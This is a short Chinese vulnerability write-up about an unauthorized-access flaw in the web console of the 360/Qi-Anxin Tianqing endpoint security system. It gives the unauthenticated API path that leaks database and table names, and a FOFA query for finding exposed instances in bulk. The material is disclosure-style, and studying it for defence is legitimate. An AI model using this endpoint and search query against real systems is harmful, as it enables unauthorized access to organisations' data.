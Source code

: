 # 0x00 软件介绍
360天擎：一套终端安全管理系统，包括客户端、Web端，漏洞出现在Web端，现在天擎归属奇安信，常称为奇安信天擎，官网：https://www.qianxin.com/product/detail/pid/49

# 0x01 复现环境
复现环境：内网环境  
复现版本：None  
环境搭建：  
无

# 0x02 利用条件
无

# 0x03 影响版本
暂无

# 0x04 漏洞复现
访问如下地址
```
https://x.x.x.x/api/dbstat/gettablessize
```
访问后会暴漏数据库名、表名，如下图  
![image](./pic/0.png)

# 0x05 批量脚本
具体用法见：python3 360天擎-越权访问导致数据库信息泄露-Vuln-Batch-Detect.py -h  
fofa语法：
```
app="360天擎终端安全管理系统"
```
效果如下  
![image](./pic/1.png)

# 0x06 参考链接
https://mp.weixin.qq.com/s/QqlueerhP0uVWWJNULhGvw

